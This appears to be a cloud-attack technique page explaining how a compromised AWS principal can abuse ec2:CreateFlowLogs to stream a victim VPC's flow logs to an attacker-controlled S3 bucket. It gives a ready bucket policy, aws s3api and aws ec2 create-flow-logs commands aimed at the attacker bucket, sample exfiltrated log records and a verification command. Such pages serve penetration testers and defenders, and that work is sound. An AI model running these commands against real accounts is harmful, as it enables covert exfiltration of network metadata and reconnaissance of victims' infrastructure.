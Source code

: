 # AWS - VPC Flow Logs Cross-Account Exfiltration to S3

## Summary
Abuse `ec2:CreateFlowLogs` to export VPC, subnet, or ENI flow logs directly to an attacker-controlled S3 bucket. Once the delivery role is configured to write to the external bucket, every connection seen on the monitored resource is streamed out of the victim account.

## Requirements
- Victim principal: `ec2:CreateFlowLogs`, `ec2:DescribeFlowLogs`, and `iam:PassRole` (if a delivery role is required/created).
- Attacker bucket: S3 policy that trusts `delivery.logs.amazonaws.com` with `s3:PutObject` and `bucket-owner-full-control`.
- Optional: `logs:DescribeLogGroups` if exporting to CloudWatch instead of S3 (not needed here).

## Attack Walkthrough

1) **Attacker** prepares an S3 bucket policy (in attacker account) that allows the VPC Flow Logs delivery service to write objects. Replace placeholders before applying:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AllowVPCFlowLogsDelivery",
      "Effect": "Allow",
      "Principal": { "Service": "delivery.logs.amazonaws.com" },
      "Action": "s3:PutObject",
      "Resource": "arn:aws:s3:::<attacker-bucket>/flowlogs/*",
      "Condition": {
        "StringEquals": { "s3:x-amz-acl": "bucket-owner-full-control" }
      }
    }
  ]
}
```

Apply from the attacker account:

```bash
aws s3api put-bucket-policy \
  --bucket <attacker-bucket> \
  --policy file://flowlogs-policy.json
```

2) **Victim** (compromised principal) creates the flow logs targeting the attacker bucket:

```bash
REGION=us-east-1
VPC_ID=<vpc-xxxxxxxx>
ROLE_ARN=<delivery-role-with-logs-permissions>   # Must allow delivery.logs.amazonaws.com to assume it
aws ec2 create-flow-logs \
  --resource-type VPC \
  --resource-ids "$VPC_ID" \
  --traffic-type ALL \
  --log-destination-type s3 \
  --log-destination arn:aws:s3:::<attacker-bucket>/flowlogs/ \
  --deliver-logs-permission-arn "$ROLE_ARN" \
  --region "$REGION"
```

Within minutes, flow log files appear in the attacker bucket containing connections for all ENIs in the monitored VPC/subnet.

## Evidence

Sample flow log records written to the attacker bucket:

```text
version account-id interface-id srcaddr dstaddr srcport dstport protocol packets bytes start end action log-status
2 947247140022 eni-074cdc68182fb7e4d 52.217.123.250 10.77.1.240 443 48674 6 2359 3375867 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 10.77.1.240 52.217.123.250 48674 443 6 169 7612 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 54.231.199.186 10.77.1.240 443 59604 6 34 33539 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 10.77.1.240 54.231.199.186 59604 443 6 18 1726 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 16.15.204.15 10.77.1.240 443 57868 6 162 1219352 1759874460 1759874487 ACCEPT OK
```

Bucket listing proof:

```bash
aws s3 ls s3://<attacker-bucket>/flowlogs/ --recursive --human-readable --summarize
```

## Impact
- Continuous network metadata exfiltration (source/destination IPs, ports, protocols) for the monitored VPC/subnet/ENI.
- Enables traffic analysis, identification of sensitive services, and potential hunting for security group misconfigurations from outside the victim account.

